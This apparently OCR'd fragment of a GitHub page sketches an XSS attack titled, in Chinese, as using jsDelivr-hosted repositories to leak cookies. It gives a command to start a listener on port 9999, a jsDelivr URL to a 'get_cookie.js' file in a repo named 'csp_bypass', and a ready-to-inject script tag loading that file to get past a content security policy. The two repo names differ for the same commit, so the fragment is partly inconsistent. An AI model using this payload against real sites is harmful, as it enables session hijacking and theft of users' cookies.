 利用cdn.jsdelivr.net托管仓库造成XSS泄露cookie
python3 -m http.server 9999
https://cdn.jsdelivr.net/gh/wedidaprettygoodjobsofar/csp_bypass@1055fb0f4da637522aa54472e0c288060651b513/get_cookie.js
<script src="https://cdn.jsdelivr.net/gh/wedidaprettygoodjobsofar/xss_script@1055fb0f4da637522aa54472e0c288060651b513/get_cookie.js"></script>
